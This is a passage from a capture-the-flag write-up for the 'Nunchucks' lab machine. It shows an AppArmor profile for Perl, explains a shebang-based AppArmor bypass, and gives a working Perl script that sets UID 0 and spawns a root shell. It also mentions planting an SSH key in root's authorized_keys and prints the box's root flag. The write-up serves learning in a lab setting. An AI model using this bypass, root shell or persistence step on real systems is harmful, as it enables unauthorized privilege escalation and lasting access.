```

```
# Last Modified: Tue Aug 31 18:25:30 2021
#include <tunables/global>

/usr/bin/perl {
  #include <abstractions/base>
  #include <abstractions/nameservice>
  #include <abstractions/perl>

  capability setuid,

  deny owner /etc/nsswitch.conf r,
  deny /root/* rwx,
  deny /etc/shadow rwx,

  /usr/bin/id mrix,
  /usr/bin/ls mrix,
  /usr/bin/cat mrix,
  /usr/bin/whoami mrix,
  /opt/backup.pl mrix,
  owner /home/ r,
  owner /home/david/ r,

}
```

So this AppArmor profile denies read access to `/etc/nsswitch.conf`, read-write access to files under `/root`, and read-write access to `/etc/shadow`. It only allows to run a few binaries, including the script we found in `/opt`.

That's problematic... how can we get `root` if we can set our UID to it, but only by running `/opt/backup.pl`, which we can't modify?

I tried to search [GTFOBins](https://gtfobins.github.io/) for the binaries that we can execute with `/usr/bin/perl`, and `cat` allows to read the content of arbitrary files. The issue is that we need to execute `POSIX::setuid(0)` to run it as `root`, and there's no way to do so.

# Privilege escalation (`/usr/bin/perl` capabilities)

If we search online for ways to bypass this restriction, we find [this HackTricks heading](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-security/apparmor#apparmor-shebang-bypass). It mentions [a bug](https://bugs.launchpad.net/apparmor/+bug/1911431) that allows to bypass AppArmor profiles policies by adding a shebang at the beginning of a script and executing it directly.

In our case, this means that we could create a Perl script starting with `#!/usr/bin/perl` and make it executable. When Linux tries to load the script as executable, the shebang tells it what interpreter to use. But AppArmor treats scripts as their own executables, so the rules for the interpreter don't apply! It would allow us to execute `/usr/bin/perl` without the AppArmor rules.

## Preparation

Let's put this in practice to get `root`. First, I'll create a `privesc.pl` file in `/tmp`:

```pl
#!/usr/bin/perl
use POSIX qw(strftime);
use POSIX qw(setuid);
POSIX::setuid(0);

exec "/bin/sh"
```

Then, I'll make the script executable.

```sh
david@nunchucks:~$ chmod +x /tmp/privesc.pl
```

## Exploitation

And finally I'll run it!

```sh
david@nunchucks:~$ /tmp/privesc.pl
```

```
#
```

We got a different shell. And if we enter `whoami`, we see that we are `root`!

Just for good measure, I'll add a SSH key to `/root/.ssh/authorized_keys` and connect using SSH.

# Local enumeration

## Home folder

The only thing we need to do to finish this box is to retrieve the root flag!

As usual, we can find it in our home folder.

```sh
root@nunchucks:~# cat ~/root.txt
```

```
4f10f10b6e335a743a641c11200918e8
```

# Afterwords


That's it for this box! The foothold was fairly easy to obtain, although a bit cumbersome to exploit. I ended up writing a script because it was annoying escaping the quotes by hand. I found the privilege escalation harder, because I didn't know about Linux capabilities and AppArmor profiles. It was also hard to find the AppArmor bypass. All in all, I loved this box and I learned a lot thanks to it.

Thanks for reading!
